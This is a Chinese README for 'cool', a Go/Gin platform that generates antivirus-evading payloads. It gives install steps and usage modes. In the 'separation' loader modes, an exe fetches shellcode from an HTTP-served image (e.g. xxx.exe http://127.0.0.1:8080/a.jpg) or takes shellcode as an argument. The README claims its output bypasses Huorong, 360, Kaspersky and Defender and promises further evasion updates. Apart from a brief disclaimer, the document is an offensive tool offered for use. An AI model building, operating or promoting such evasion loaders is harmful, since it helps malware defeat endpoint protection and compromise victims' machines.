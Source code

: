 # cool
- Golang Gin 框架写的免杀平台- (2021.11.12)
- Golang Gin 框架写的免杀平台 更新捆绑免杀- (2021.11.20)
## 安装
1. 安装Go环境，版本要**1.17**及以上；
2. 如果是首次安装Go环境，安装完毕后要配置代理，执行以下这两条命令:
 -  **go env -w GO111MODULE=on** 
 -  **go env -w GOPROXY=https://goproxy.io,direct** 
3. 完毕后执行 **go install mvdan.cc/garble@latest** ；
4. 下载本项目到D盘根目录，文件夹名字改为cool；
5. 运行cool.exe；
6. 访问 **http://127.0.0.1:9000** 。

## 使用
为减去浏览器扫描的时间，故生成的文件格式为txt，使用时只需要把后缀修改为前端提示的后缀就可以了。
### 1. 加密1
- 直接执行exe
### 2. 加密2
- 直接执行exe
### 3. 分离1(houqing) 
(目前这个测试已经不过火绒了，查杀点为"异或"，下个版本更新绕过异或查杀。)
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg)
### 4. 分离2
#### 上线方式1
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg)
#### 上线方式2
- 执行xxx.exe 参数为shellcode.txt里的内容 

目前火绒、360、卡巴斯基、def全过；先这样用，不能bypass了再说，更新频率看star数量🐕。

### 声明：仅用于技术交流，请勿用于非法用途。
